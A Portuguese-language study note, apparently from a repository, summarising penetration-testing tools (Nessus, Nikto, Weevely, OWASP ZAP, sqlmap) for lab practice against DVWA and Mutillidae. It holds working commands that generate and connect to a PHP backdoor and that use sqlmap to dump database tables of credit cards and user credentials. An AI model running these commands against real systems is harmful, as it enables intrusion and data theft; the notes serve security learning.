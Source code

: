 #Nessus:
	Nessus Cloud é um programa de verificação de falhas/vulnerabilidades de segurança. Ele é composto por um cliente e servidor, sendo que o scan propriamente dito é feito pelo servidor.

#Nikto:
	Nikto é um scanner de vulnerabilidades de software livre acessado por CLI, usado para escanear servidores web em busca de arquivos perigosos, programas desatualizados e outros problemas. É capaz de fazer tanto análises genéricas como análises específicas de servidor. Também faz a captura e exibição de cookies HTTP. 
	! Existem ferramentas como o Nikto que são capazes de “scanear” um servidor web, listando informações de servidor, como qual tecnologia utilizada, versão, etc e os links referentes a um domínio. Com isso, podemos descobrir páginas que teoricamente não eram para ser indexadas, e se tiver alguma página com conteúdo privado que não esteja com nenhum processo de autenticação, qualquer usuário poderá acessar.
```bash
$ nikto -h "http://192.168.1.37/multillidae/" # exemplo
```

#Software_Weevely:
	O WEEVELY é uma ferramenta desenvolvida em Python que permite que um Backdoor seja gerado no formato .php e se executado em um host remoto pode obter o console do sistema.
```bash
$ weevely generate 1234 aplicacao.php # Generated backdoor with password '1234' in 'aplicacao.php' of 1429 byte size
$ weevely "http://192.168.1.42/dvwa/hackable/uploads/aplicacao.php" 1234 # Caso aja conexeção significa que o backdor conseguiu acesso ao servidor
```

#Owasp-zap:        ****warning*** -> não pode ser usado em sites da internet
	Traduzido do inglês-OWASP ZAP é um scanner de segurança de aplicativos da web de código aberto. Ele deve ser usado tanto por aqueles que são novos em segurança de aplicativos quanto por testadores de penetração profissionais. É um dos projetos mais ativos do Open Web Application Security Project e recebeu o status de carro-chefe.

#Sqlmap: 
	Sqlmap é uma ferramenta open source para teste de penetração que automatiza o processo de detecção e exploração de vulnerabilidades de Injeção de SQL, permitindo a invasão de banco de dados de sites.

```bash
$ sqlmap -u "URL_DO_FORMS"   # Testa várias injeções e retorna se encontrou alguma vunerabilidade
   $ sqlmap -u "URL_DO_FORMS" --dbs  # Lista os banco de dados do site.
   $ sqlmap -u "URL_DO_FORMS" --current-db  # retorna o banco de dados usado
   $ sqlmap -u "URL_DO_FORMS" --tables -D nowasp  # Uma vez que descobrimos qual o banco, podemos obter o número de tabelas que ele possui e o nome delas
   $ sqlmap -u "URL_DO_FORMS" --dump -T credit_cards -D nowasp # Vai tentar retornar o conteúdo da tabela informada
   $ sqlmap -u <url> –D <db_name> –tables <table> –columns “password,username” –dump  # mostra as informações das colunas que eu informar 
   $ sqlmap -u "URL" --data="email=alex@gmail.com&senha=123" # A opção --data é utilizada para passar os parâmetros enviados pela requisição POST, através desses parâmetros o sqlmap irá tentar fazer a injeção de código SQL
   $ sqlmap -u "URL_DO_FORMS" --batch # Executa o sqlmap sem que ele faça perguntas no terminal, irá retornar apenas algumas respostas padrão
   $ sqlmap -u <url> --technique TU  # Caso eu queria explorar Sql Injection baseado em tempo e no comando UNION
   $ sqlmap -u "URL" --batch --dbms mysql --os linux --threads 3 -D mutillidae -T accounts -C "username,password,is_admin" --dump  # Estamos passando uma url com parâmetro para o sqlmap a fim de baixar os dados da base de dados mutillidae, tabela accounts e colunas username, password e is_admin para visualizar os dados de usuários, senhas e administrador. Além disso, ela melhorou a performance do comando ao utilizar comandos que informam o gerenciador de base dados, o sistema operacional utilizado no servidor e a quantidade de requisições.
```
    